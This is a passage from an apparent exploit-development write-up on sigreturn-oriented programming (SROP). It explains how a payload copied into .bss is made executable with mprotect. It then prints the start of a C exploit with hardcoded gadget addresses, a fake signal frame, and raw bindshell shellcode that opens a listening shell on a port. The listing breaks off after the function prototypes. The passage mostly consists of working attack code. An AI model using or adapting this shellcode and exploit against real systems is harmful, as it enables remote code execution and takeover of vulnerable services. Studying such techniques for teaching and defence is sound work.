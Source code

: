 
### Exploit

We know that our payload will be copied in a fixed location in .bss. (at
0x6012c0). Our strategy is to copy a shellcode there and then call mprotect
syscall in order to change page protection starting at 0x601000 (must be a
multiple ot the page size).

![]({{site.baseurl}}/images/srop_bss.png){: .center}
*Figure 2: Payload copied in .bss*

In this exploit, we overflow our vulnerable buffer as shown by figure 3. First,
we fill our buffer with a nop sled (not necessary) followed by a classical
bindshell. This executable payload is prepended with an address pointing to the
shellcode in .bss (see figure 2).

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <sys/mman.h>
#include <errno.h>
 
#define HOSTNAME "localhost"
#define PORT     7777
#define POWN     31337
#define SIZE     0x400 + 8*2
 
#define SYSCALL_GADGET   0xffffffffff600007
#define RAX_15_GADGET    0x400ad3
#define DATA             0x6012c0
#define MPROTECT_BASE    0x601000 //must be a multiple of page_size (in .bss)
#define MPROTECT_SYSCALL 0xa
#define FLAGS            0x33
#define PAGE_SIZE        4096
 
#define COLOR_SHELL      "\033[31;01mbind-shell\033[00m > "
 
struct payload_t {
	unsigned long   ret;
	char            nopshell[SIZE];
	unsigned long   gadget;
	unsigned long   sigret;
	struct ucontext context;
};
 
unsigned char shellcode[] = "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
                            "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
                            "\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02"
                            "\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05"
                            "\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31"
                            "\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59"
                            "\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48"
                            "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
                            "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
                            "\x5f\x6a\x3b\x58\x0f\x05";
 
int setsock(char *hostname, int port);
void session(int s);
void overflows(int s);
int handle_error(char *msg);
 

[haka-blur]: {{site.baseurl}}/images/haka_blur.png
